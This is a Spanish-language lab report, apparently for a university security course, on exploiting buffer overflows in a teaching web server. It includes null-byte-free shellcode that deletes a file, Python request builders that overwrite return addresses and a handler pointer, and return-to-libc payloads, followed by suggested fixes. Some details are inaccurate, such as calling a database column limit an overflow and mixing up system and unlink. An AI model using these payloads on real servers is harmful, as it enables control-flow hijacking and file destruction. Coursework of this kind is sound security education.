\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{color}
\usepackage{parskip}
\usepackage{graphicx}
\usepackage{multirow}
\usepackage{listings}
\usepackage{vmargin}
\graphicspath{ {imagenes/} }
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{lbcolor}{rgb}{0.9,0.9,0.9}
\usepackage{epstopdf}

\lstset{
backgroundcolor=\color{lbcolor},
    tabsize=4,    
%   rulecolor=,
    language=[GNU]C++,
        basicstyle=\tiny,
        aboveskip={1.5\baselineskip},
        columns=fixed,
        showstringspaces=false,
        extendedchars=false,
        breaklines=true,
        prebreak = \raisebox{0ex}[0ex][0ex]{\ensuremath{\hookleftarrow}},
        frame=single,
        showtabs=false,
        showspaces=false,
        showstringspaces=false,
        identifierstyle=\ttfamily,
        keywordstyle=\color[rgb]{0,0,1},
        commentstyle=\color[rgb]{0.026,0.112,0.095},
        stringstyle=\color{red},
        numberstyle=\color[rgb]{0.205, 0.142, 0.73},
%        \lstdefinestyle{C++}{language=C++,style=numbers}’.
}

\begin{document}
\title{Proyecto: Buffer overflows}
\author{
Christofer Fabián Chávez Carazas \\
\small{Universidad Nacional de San Agustín} \\
\small{Seguridad Computacional}
}

\maketitle

\section{Part 1: Finding buffer overflows}

\subsection{Ejercicio 1}

\textbf{Study the web server's code, and find examples of code vulnerable to
memory corruption through a buffer overflow.}

\begin{enumerate}
 \item En la línea 347 del archivo http.c. La variable 'dst' es de tamaño 1024 en la función 'http\_serve\_directory'. El
filename es una variable con el nombre de un archivo. Si ese nombre
es demasiado grande puede ocurrir un desbordamiento.
\begin{lstlisting}
void dir_join(char *dst, const char *dirname, const char *filename) {
    strcpy(dst, dirname);
    if (dst[strlen(dst) - 1] != '/')
	strcat(dst, "/");
    strcat(dst, filename);
}
\end{lstlisting}

\item En la línea 282 del archivo http.c. Si la constante 'name' es mucho mas grande que el buffer 'pn', entonces ocurrirá
un desbordamiento. Esto puede ocurrir en zookfs.c:47 en donde se llama la función
'http\_serve'. Si el valor que retorna 'getenv('REQUEST\_URI')' tiene un tamaño mayor a
1024, entonces se producirá el desbordamiento.
\begin{lstlisting}
void http_serve(int fd, const char *name)
{
    char pn[1024];
    struct stat st;

    getcwd(pn, sizeof(pn));
    setenv("DOCUMENT_ROOT", pn, 1);

    strcat(pn, name);
\end{lstlisting}

\item En la línea 120 del archivo http.c. Si la url es más grande que el buffer \textit{value} entonces va a ocurrir
un desbordamiento.
\begin{lstlisting}
const char *http_request_headers(int fd)
{
    static char buf[8192];      
    int i;
    char value[512];
    char envvar[512];
    
\end{lstlisting}

\item En la línea 10 del archivo zoodb.py. En la entidad Persona en la base de datos, el tamaño del usuario y del password están limitados.
Con un usuario o un password grandes se puede obtener un desbordamiento.
\begin{lstlisting}
class Person(PersonBase):
    __tablename__ = "person"
    username = Column(String(128), primary_key=True)
    password = Column(String(128))
    token = Column(String(128))
    zoobars = Column(Integer, nullable=False, default=10)
    profile = Column(String(5000), nullable=False, default="")
\end{lstlisting}

\item En la línea 65 del archivo zoodkd.c, se crea un buffer y en la línea 70 se llena ese buffer. Dentra de 
la función 'http\_request\_line', se copia la url a es buffer. Si la url es más grande que ese buffer, entoncesse 
produce un desbordamiento
\begin{lstlisting}
static void process_client(int fd)
{
    static char env[8192];  /* static variables are not on the stack */
    static size_t env_len;
    char reqpath[2048];
    const char *errmsg;
    int i;

    /* get the request line */
    if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
        return http_err(fd, 500, "http_request_line: %s", errmsg);

\end{lstlisting}
\end{enumerate}

\subsection{Efercicio 2:}
\textbf{Pick two buffer overflows out of what you have found for later exercises.  The first must overwrite a return address
on the stack, and the second must overwrite some other data structure that you will use to take over the control flow of the program.}

\begin{enumerate}
 \item La primera vulnerabilidad explotada es la número 5 del ejercicio anterior. Con una url de más de 2048 caracteres se cae
 el programa al finalizar esa función porque la dirección de retorno es corrupta. Es una forma fácil de inyectar código. El
 código siguiente muestra el exploit.
\begin{lstlisting}
def build_exploit(shellcode):
    req =   "GET /"
    for i in range(0,3000):
        req = req + 'A'

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}
  \item La segunda vulnerabilidad explotada es la número 1 del ejercicio anterior. Con una url de más de 1024 caracteres pero no
  mayor a 2048, porque sino incurriríamos en la vulnerabilidad anterior, se cae el programa al llamar a la función que está 
  dentro de la dirección 'handler'. Es una forma fácil de cambiar el flujo del programa para ocasionar más problemas o abrir
  un archivo no autorizado. El código siguiente muestra el exploit:
\begin{lstlisting}
def build_exploit(shellcode):
    req =   "GET /"
    for i in range(0,1500):
        req = req + 'A'

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req

\end{lstlisting}
\end{enumerate}


\section{Part 2: Code injection}

\subsection{Ejercicio 3:}

\textbf{Starting from one of your exploits from Exercise 2, construct an exploit that hijacks control flow of
the web server and unlinks /home/httpd/grades.txt}

Al crear el shellcode para eliminar el archivo surgió un problema: el valor de la función \textit{unlike} era 10 o '\textbackslash n'
o '\textbackslash 0', y cuando se creaba el binario, dentro había ese caracter. Cuando pasabas el binario por la url, 
el servidor no llegaba a la parte vulnerable ya que retornaba la respuesta antes, porque si encontraba uno de los caracteres
mencionados anteriormente, simplemente terminaba. La solución es muy simple, en lugar de poner el valor 10 de frente, se
suman dos valores 5. El código en assembler es el siguiente:

\begin{lstlisting}
#include <sys/syscall.h>

#define STRING  "/home/httpd/grades.txt"
#define STRLEN  22
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.globl main
        .type   main, @function

 main:
        jmp     calladdr

 popladdr:
        popl    %esi
        movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
        xorl    %eax,%eax               /* get a 32-bit zero value */
        movb    %al,(STRLEN)(%esi)      /* null-terminate our string */
        movl    %eax,(ENVP)(%esi)       /* set up null envp */

        add     $5, %al
        add     $5, %al
        movl    %esi,%ebx               /* syscall arg 2: string pathname */
        leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
        leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
        int     $0x80                   /* invoke syscall */

        xorl    %ebx,%ebx               /* syscall arg 2: 0 */
        movl    %ebx,%eax
        inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                        /* mov+inc to avoid null byte */
        int     $0x80                   /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING
\end{lstlisting}

El código del exploit es el siguiente y será explicado a continuación:

\begin{lstlisting}
pn_dir = 0xbfffee09

def build_exploit(shellcode):
    req =   "GET /"

    req = req + shellcode

    for i in range(0,2005):
        req = req + 'B'

    req = req + struct.pack("<I",pn_dir)

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}


Aquí lo más importante es ver cuántas 'B' se tienen que agregar para poder desbordar el buffer de manera precisa para cambiar
la dirección de retorno. En la Figura \ref{fig:pila1} se muestra la distribución de la pila en la función \textit{process\_client}
que estamos explotando. Si nosotros enviamos la url sin las 'B' entonces en la función sólo llegaría el '\textbackslash' y el shellcode.
Los dos tienen 63 bytes en total, entonces para llenar el buffer necesitamos 1985 bytes más. Para pasar por las variables
\textit{errmsg} y \textit{i} necesitamos 8 bytes. Para llenar el tramo faltante hasta el ebp necesitamos 8 bytes. Y para llenar
el ebp necesitamos 4. Si sumamos todo (1985 + 8 + 8 + 4) nos da un total de 2005 'B' que tenemos que colocar en la URL.
Luego se coloca la dirección a donde queremos que vaya el programa. El buffer empieza en $0xbfffee08$, pero esa dirección
guarda el caracter '\textbackslash', así que le aumentamos un byte en donde realmente comienza nuestro shellcode.


\begin{figure}
 \centering
 
\includegraphics[scale = 0.7]{pila1.png}
 \caption{Diagrama de la pila de la función \textit{process\_client}}
 \label{fig:pila1}
\end{figure}


\section{Part 3: Return-to-libc attacks}

\subsection{Ejercicio 4:}

\textbf{Starting from your two exploits in Exercise 2, construct two exploits that take advantage of those vulnerabilities
to unlink /home/httpd/grades.txt when run on the binaries that have a non-executable stack.}

El primer exploit es el que sigue:

\begin{lstlisting}
system_dir = 0x40102450
path_dir = 0xbffff628

def build_exploit(shellcode):
    command = "/home/httpd/grades.txt"

    req =   "GET /"

    for i in range(0,2067):
        req = req + 'A'
    req = req + struct.pack("<I",system_dir)
    req = req + "SEXY"
    req = req + struct.pack("<I",path_dir)
    req = req + command

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}

En la Figura \ref{fig:pila2} se muestra la distribución de la pila con el ataque. Como ya no tenemos shellcode, entonces tenemos
que aumentar 62 bytes más para llegar a la dirección de retorno. Si hacemos los cálculos con el ejercicio anterior (2005 + 62) nos
da un total de 2067 'A'. Luego se coloca la dirección de la función unlink y después se coloca la palabra ``SEXY''. Aquí
va la dirección de retorno de la función unlink, pero como a nosotros no nos importa ponemos cualquier cosa en esos cuatro bytes.
Luego se pone la dirección del string que queremos pasar a la función unlink. Y al final se pone el archivo que queremos eliminar.

\begin{figure}
 \centering
 
\includegraphics[scale = 0.7]{pila2.png}
 \caption{Diagrama de la pila de la función \textit{process\_client} con el ataque libc}
 \label{fig:pila2}
\end{figure}


El segundo exploit es el siguiente:

\begin{lstlisting}
http_none_dir = 0x80495ea
system_dir = 0x40102450
path_dir = 0xbfffde18

def build_exploit(shellcode):
    command = "/home/httpd/grades.txt"

    req =   "GET /"

    for i in range(0,1008):
        req = req + 'A'
    req = req + struct.pack("<I",http_none_dir)
    for i in range(0,12):
        req = req + 'B'
    req = req + struct.pack("<I",system_dir)
    req = req + "SEXY"
    req = req + struct.pack("<I",path_dir)
    req = req + command

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}


Este es un caso un poco diferente ya que hay un problema de por medio. En la función \textit{http\_serve()} existe un puntero
\textit{handler} que apunta a una función que va a ser llamada antes de que se llame la dirección de retorno. El problema está
en que el puntero \textit{handler} está entre el buffer \textit{pn} y la ebp y la dirección de retorno; como se puede ver en
la Figura \ref{fig:pila3}. Esto significa que si nosotros hacemos overflow al buffer \textit{pn} y sobreescribimos el puntero
\textit{handler}, se va a producir una violación de segmento antes de que se llame a la dirección de retorno manipulada
por nosotros. Más adelante se explicará la solución a este problema.\\
Cuando el programa llega a la función \textit{http\_serve()}, antes de copiar la URL, copia el string ``/home/httpd/lab/'' al
buffer y luego concadena el URL. El tamaño del string inicial es de 16 bytes. Entonces para llegar al puntero \textit{handler}
tenemos que poner (1024 - 16) 1008 'A'. Aquí es donde vamos a resolver el problema. Vamos a hacer que el programa ejecute la
función apuntada por \textit{handler} de forma normal. Ponemos la dirección de \textit{http\_serve\_none} (Una función del programa)
en \textit{handler}. Los 12 bytes que sobran hasta la dirección de retorno, incluyendo el ebp, son reemplazados por 'B'.
Luego hacemos lo mismo que el exploit anterior: ponemos la dirección de unlike, el ``SEXY'', la dirección del string, y el
archivo a eliminar. Esto va hacer que el programa ejecute la función \textit{http\_serve\_none} y retorne a \textit{http\_serve}
de forma normal, para luego ejecutar nuestro ataque.


\begin{figure}
 \centering
 
\includegraphics[scale = 0.7]{pila3.png}
 \caption{Diagrama de la pila de la función \textit{http\_serve} con el ataque libc}
 \label{fig:pila3}
\end{figure}


\section{Part 4: Fixing buffer overflows and other bugs}

\subsection{Ejercicio 5:}

\textbf{Look through the source code and try to find more vulnerabilities that can allow an attacker to compromise
the security of the web server. You should find at least two vulnerabilities for this exercise.}

\begin{enumerate}
 \item Un error enorme que he encontrado en el código es que se pude ver cualquier archivo del servidor, como los códigos
 en C. Un hacker malintencionado puede obtener los códigos fácilmente, estudiar la arquitectura donde corre el servidor, y realizar
 los mismos ataques hechos en ejercicios anteriores.
 \item Otro error es el puntero \textit{handler}. Este puntero apunta a una función que va a ser llamada más adelante. En
 el programa esa función puede variar de entre 4 funciones. Un hacker puede modificar el puntero \textit{handler} y moverse
 por esas 4 funciones.
\end{enumerate}

\subsection{Ejercicio 6:}

\textbf{For each buffer overflow vulnerability you have found in Exercise 1, 
fix the web server's code to prevent the vulnerability in the first place.}

\begin{enumerate}
 \item Aquí hay dos funciones peligrosas: \textit{strcpy()} y \textit{strcat()}. Este problema puede resolver fácil
 reemplazando estas funciones por sus homólogas seguras: \textit{strncpy()} y \textit{strncat()}, a estas se les pasa
 el número de bytes a copiar o concadenar.
 \item Igual que la vulnerabilidad anterior, sólo es cambiar el \textit{strcat()} por \textit{strncat()}.
 \item Aquí el problema está en la función \textit(url\_decode()), implementada también en el servidor. Esta función copia
 la URL con unas modificaciones a un buffer. La solución sería modificar esa función para que verifique el tamaño de
 la URL y el tamaño de buffer.
 \item Aquí se podría arreglar validando las entradas en la parte de frontend
 \item Este problema es el mismo que el de la vulnerabilidad 3 y se resolvería de la misma manera.
\end{enumerate}





\end{document}
